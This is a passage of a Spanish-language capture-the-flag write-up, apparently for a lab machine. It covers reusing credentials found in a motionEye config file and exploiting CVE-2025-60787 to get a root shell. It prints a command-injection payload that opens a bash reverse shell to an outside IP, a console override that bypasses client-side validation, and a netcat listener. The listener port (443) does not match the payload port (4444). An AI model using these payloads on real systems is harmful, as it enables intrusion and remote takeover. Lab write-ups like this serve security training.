

> Continuamos revisando los archivos de configuración y, en `/etc/motioneye/motion.conf`, encontramos un usuario y una contraseña:

```text
user: admin
pass: 989c5a8ee87a0e9521ec81a79187d162109282f0
```



> Probamos las credenciales encontradas y conseguimos acceder al panel.



## CVE-2025-60787

> Investigando la aplicación, encontramos la vulnerabilidad `CVE-2025-60787`, que nos permitirá ejecutar comandos en el contexto del servicio mediante la configuración de las imágenes de la cámara.

- Primero, accedemos a la configuración de la cámara y buscamos el apartado `Still Image`.
- En el campo correspondiente al nombre de la imagen, introducimos el siguiente payload:

```bash
$(php -r 'system("bash -c \"bash -i >& /dev/tcp/10.10.14.190/4444 0>&1\"");').%Y-%m-%d-%H-%M-%S
```

- Sin embargo, al intentar aplicar los cambios, comprobamos que la aplicación no nos lo permite debido a una validación implementada en JavaScript que impide introducir este contenido.

> Vamos a modificar esa validación para poder guardar el nombre de imagen que contiene nuestro payload.

- Accedemos desde el navegador a la siguiente ruta, utilizando las herramientas de desarrollador (F12):

`/static/js/main.js?v=0.43.1b4`



> Localizamos la función `configUiValid` y vamos a sobrescribirla desde la consola del navegador para que siempre devuelva `true`.

```js
configUiValid = function() { return true; };
```



- **Preparamos el listener**

> Ahora nos ponemos en escucha para recibir la conexión entrante:

```bash
nc -nvlp 443
```

- **Introducimos el payload**

> Volvemos al campo del nombre de la imagen e introducimos el siguiente payload:

```bash
$(php -r 'system("bash -c \"bash -i >& /dev/tcp/10.10.14.190/4444 0>&1\"");').%Y-%m-%d-%H-%M-%S
```

- Aplicamos la siguiente configuración:





> Conseguimos obtener una shell con privilegios de `root`. Solo nos queda acceder al directorio `/root` y recoger la flag para completar la máquina.